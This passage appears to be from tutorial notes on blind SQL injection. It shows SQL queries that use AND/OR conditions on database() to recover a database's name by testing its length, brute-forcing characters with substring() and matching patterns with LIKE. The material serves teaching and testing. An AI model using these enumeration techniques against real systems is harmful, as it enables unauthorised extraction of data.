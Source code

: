 If the 1st part of the where clause is correct we can use the AND operator to get result

````sql
SELECT * 
FROM users 
WHERE id=1 AND database()="sbva";
````

If the 1st part of the where clause is wrong we can use the OR operator to get result

````sql
SELECT * 
FROM users 
WHERE id=2 OR database()="sbva";
````

#### Finding Database Name

1. <u>Find Length of Name</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR LENGTH(database())="1";
````

2. <u>Brute Force the Characters</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR substring(database(), 1, 1)="s";

SELECT * 
FROM users 
WHERE id=2 or substring(database(), 2, 1)="s";
````

3. <u>Try to Find Matching Pattern</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR database() LIKE "%s%";
````
